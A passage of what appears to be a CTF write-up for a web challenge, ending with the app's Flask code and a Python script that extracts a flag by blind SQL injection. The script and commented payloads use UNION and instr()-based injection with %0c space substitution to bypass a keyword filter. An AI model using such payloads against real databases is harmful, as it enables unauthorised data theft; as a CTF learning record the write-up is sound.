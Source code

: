 ```python
        check = 1
    elif result == [] and ans != "" :
        check = 2

    return render_template("index.html", id=id, img=img, ans=ans, check=check)

if __name__ == "__main__":
    app.run()
```

The database gives many ID and after searching a little bit, I found the flag in ID 1337.
![image](https://hackmd.io/_uploads/S1MvgpZN6.png)
And we can inject into the id but also need to bypass the function `waf_cuc_chill`. 

**Idea:**
> - Inject id and create a new table name F that concat with table QuiBuu and choose the id 1337 to get the flag.
> - This need to brute the flag in url (Blind SQL Injection) to get the real flag in the column URL. In this challenge i use instr ([Link](https://www.sqlite.org/lang_corefunc.html)). 
> Note: I didn't see the author only filter `substring` and `subsrt` but left the `substr` until the author talk that to me after this CTF end lul.

Final exploit script:

```python
import requests
import string

# payload = "'OR SELECT * FROM QuiBuu WHERE ID = 1 UNION SELECT 1,2,F.`3` FROM (SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F/*".replace(" ","%0c")
# payload = "abc'OR SELECT GROUP_CONCAT(F.`3`) FROM (SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F".replace(" ","%0c")
# payload = "a' OR (SELECT instr((SELECT GROUP_CONCAT(F.`3`) FROM ( SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F),\"ISITDTU\"))/*".replace(" ","%0c")
flag = ""
url = "http://20.198.223.134:1301/?id=1&ans="


while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
        payload = ("a' OR (SELECT instr((SELECT GROUP_CONCAT(F.`3`) FROM ( SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F),\""+flag+c+"\"))/*").replace(" ","%0c")
        r = requests.get(url + payload, stream=True) 
        if 'Haha QuiBuu!' in r.text:
            print(f" [+] Brute flag successfully : {flag+c}")
            flag += c
```
After i exploit in my local i get that:
![image](https://hackmd.io/_uploads/H1yY46bNa.png)
Done! Let's go!! 
Let take the flag from the real url. Flag in the google drive lul: [https://drive.google.com/file/d/1KWvSVho_Yl6kQ2f6iwGPudfh2pYPvDN1/view](https://drive.google.com/file/d/1KWvSVho_Yl6kQ2f6iwGPudfh2pYPvDN1/view)
Flag: `ISITDTU{I_SURE_U_QU1BUU_K3K3}`

